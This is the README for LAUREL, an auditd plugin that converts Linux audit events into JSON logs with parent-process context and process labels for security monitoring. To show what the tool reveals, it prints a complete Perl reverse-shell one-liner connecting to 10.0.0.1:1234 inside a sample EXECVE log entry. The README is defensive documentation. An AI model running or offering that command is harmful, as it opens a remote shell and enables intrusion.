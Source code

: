 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source. The generated event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace _auditd(8)_ as the consumer of audit messages from the kernel. Instead, it uses the _audisp_ ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format](json-format.md) for a description of the log format.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to [Performance](performance.md) for details.

## A word about audit rules

A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>, but generally speaking, any ruleset will do. _LAUREL_ will currently only work as designed if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the parent of the process that caused the event. If available, `id` points to the message corresponding to the last `execve` syscall for this process:

``` json
"PARENT_INFO": {
  "ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ppid": 1532
}
```

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as keys to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out harmless events.

Consider the following rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
```
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting the single event.

## Installation

See [INSTALL.md](INSTALL.md).

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
